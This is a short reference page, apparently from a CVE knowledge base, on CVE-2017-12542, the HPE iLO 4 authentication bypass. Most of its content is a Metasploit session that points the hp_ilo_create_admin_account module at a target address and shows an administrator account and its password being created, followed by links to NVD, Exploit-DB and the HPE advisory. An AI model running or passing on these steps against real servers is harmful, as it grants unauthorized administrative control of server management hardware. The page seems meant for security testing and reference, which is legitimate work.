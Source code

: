 ```yaml
---
title : "CVE-2017-12542"
# pre : ' '
description : "A authentication bypass and execution of code vulnerability in HPE Integrated Lights-out 4 (iLO 4) version prior to 2.53."
date : 2020-03-11T12:41:23+01:00
# hidden : true
# draft : true
weight : 110
# tags : [""]
---
```


---

## HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

## Usage

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

## Examples

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

## URL List

- [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
- [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
- [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
